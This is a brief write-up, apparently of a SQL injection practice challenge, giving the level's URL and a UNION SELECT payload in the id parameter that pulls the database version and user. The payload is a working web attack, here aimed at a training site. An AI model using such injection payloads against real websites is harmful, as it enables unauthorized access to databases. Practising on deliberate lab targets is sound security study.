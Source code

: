 Chall Url: http://www.zixem.altervista.org/SQLi/level1.php?id=1
Payload: http://www.zixem.altervista.org/SQLi/level1.php?id=-1%20union%20select%20version(),user(),3#

![](https://user-images.githubusercontent.com/25671488/60625493-9e566d00-9e05-11e9-9159-06c503c1ac26.png)
